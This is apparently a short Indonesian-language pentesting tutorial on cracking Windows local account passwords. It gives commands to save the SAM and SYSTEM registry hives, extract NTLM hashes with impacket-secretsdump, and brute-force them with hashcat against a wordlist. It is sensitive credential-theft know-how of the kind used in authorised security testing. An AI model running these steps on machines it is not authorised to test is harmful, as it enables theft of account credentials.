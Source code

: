 # Pre Pentesting
1. Siapkan worldlist / kumpulan dari password, dapat dilakukan secara manual atau menggunakan tools yang sudah ada

# Pentesting Windows Password using hashcat brute force
1. Pada windows buka menu powershell dengan Run As Administrator, kemudian ketikkan perintah berikut
```
reg save HKLM\sam ./sam.save
```
```
reg save HKLM\system ./system.save
```
kemudian cari file tersebut disimpan dalam direktori sesuai dengan pemanggilan power shell
Simpan file tersebut dalam flashdisk

2. Buka kali linux, kemudian jalankan perintah berikut untuk mencari hash dari password yang didapat
```
impacket-secretsdump -sam sam.save -system system.save LOCAL
```
Perhatikan username yang akan dilakukan pentesting, catat hash terakhir setelah tanda (:)

3. Lakukan Brute Force dengan hashcat menggunakan wordlist yang telah dibuat
```
hashcat -m 1000 windows.txt hack.txt
```
* -m 1000 merupakah tipe hash yang akan di lakukan pentesting
* windows.txt merupakah file hash dari windows
* hack.txt merupakah wordlist yang telah dibuat
